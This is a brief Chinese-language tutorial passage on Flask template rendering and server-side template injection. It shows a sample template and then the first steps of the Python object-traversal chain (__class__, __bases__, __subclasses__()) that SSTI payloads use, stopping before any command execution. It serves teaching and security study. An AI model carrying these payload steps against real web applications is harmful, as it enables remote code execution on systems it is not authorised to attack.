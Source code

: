###   模板渲染体系

`render_template`函数渲染的是`templates`中的模板

```
├── app.py  
├── static  
│   └── style.css  
└── templates  
    └── index.html
```

例如index.html里面有

```
&lt;html&gt;
  &lt;head&gt;
    &lt;title&gt;{{title}} - 小猪佩奇&lt;/title&gt;
  &lt;/head&gt;
 &lt;body&gt;
      &lt;h1&gt;Hello, {{user.name}}!&lt;/h1&gt;
  &lt;/body&gt;
&lt;/html&gt;
```

其中`title`和`user.name`

### flask-SSTI

关键代码：用于渲染

```
render_template()
```

&gt; 以下是无过滤情况的过程

查找类

```
&#34;&#34;.__class__	# str
```


查找基类

```
&#34;&#34;.__class__.__bases__	# object
&#34;&#34;.__class__.__mro__
```

查这个类的子类的集合

```
&#34;&#34;.__class__.__bases__[0].__subclasses__()	
# [&lt;class &#39;type&#39;&gt;, &lt;class &#39;weakref&#39;&gt;, &lt;class &#39;weakcallableproxy&#39;&gt;, &lt;class &#39;weakproxy&#39;&gt;, &lt;class...
```

找到合适的类，然后从合适的类中寻找我们需要的方法
